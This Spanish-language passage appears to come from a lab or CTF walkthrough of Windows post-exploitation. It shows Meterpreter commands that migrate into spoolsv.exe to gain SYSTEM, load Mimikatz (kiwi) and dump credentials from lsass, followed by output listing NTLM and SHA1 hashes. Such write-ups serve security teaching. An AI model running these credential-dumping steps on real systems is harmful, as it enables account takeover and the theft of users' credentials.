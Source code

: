 En este ejemplo el permiso que nos da el exploit es `SeTakeOwnershipPrivilege` .

Para poder acceder al servicio lsass donde se almacenan las credenciales de usuario en un sistema windows primero debemos intentar encontrar un proceso que sea ejecutado por el administrador del sistema ya que, aunque hayamos "escalado privilegios" no somos el administrador del sistema.

### Migración de procesos

Listamos los procesos que están en ejecución.

```bash
meterpreter > ps

1376  692   spoolsv.exe           x64   0        NT AUTHORITY\SYSTEM           C:\Windows\System32\spoolsv.exe
```
Para interactuar con **lsass**, necesitamos migrar a un proceso que tenga la misma arquitectura que el servicio **lsass** (x64 en el caso de esta máquina) y que tenga los mismos permisos que **lsass**. El servicio de cola de impresión resulta ser perfecto para esto y se reiniciará si lo hacemos fallar. 

El servicio es el listado arriba.

Migrar a un proceso a menudo significa que, cuando tomamos el control de un programa en ejecución, terminamos cargando otra biblioteca compartida en el programa (un **DLL**) que incluye nuestro código malicioso. A partir de esto, podemos generar un nuevo hilo que aloje nuestra shell.

Para poder migrar el proceso, desde meterpreter

```bash
meterpreter > migrate -N spoolsv.exe 
meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
```

Ahora podemos interactuar con el servicio lsass por lo que vamos a utilizar una herramienta para extraer datos de la la bases de datos de los sistemas windows llamada Mimikatz.

Meterpreter cuenta con un módulo implementado para cargarlo.

```bash
meterpreter > load kiwi
Loading extension kiwi...
  .#####.   mimikatz 2.2.0 20191125 (x64/windows)
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 ## \ / ##       > http://blog.gentilkiwi.com/mimikatz
 '## v ##'        Vincent LE TOUX            ( vincent.letoux@gmail.com )
  '#####'         > http://pingcastle.com / http://mysmartlogon.com  ***/

Success.
meterpreter > creds_all
[+] Running as SYSTEM
[*] Retrieving all credentials
msv credentials
===============

Username  Domain   LM                                NTLM                              SHA1
--------  ------   --                                ----                              ----
Dark      Dark-PC  e52cac67419a9a22ecb08369099ed302  7c4fe5eada682714a036e39378362bab  0d082c4b4f2aeafb67fd0ea568a997e9d3ebc0eb

wdigest credentials
===================

Username  Domain     Password
--------  ------     --------
(null)    (null)     (null)
DARK-PC$  WORKGROUP  (null)
```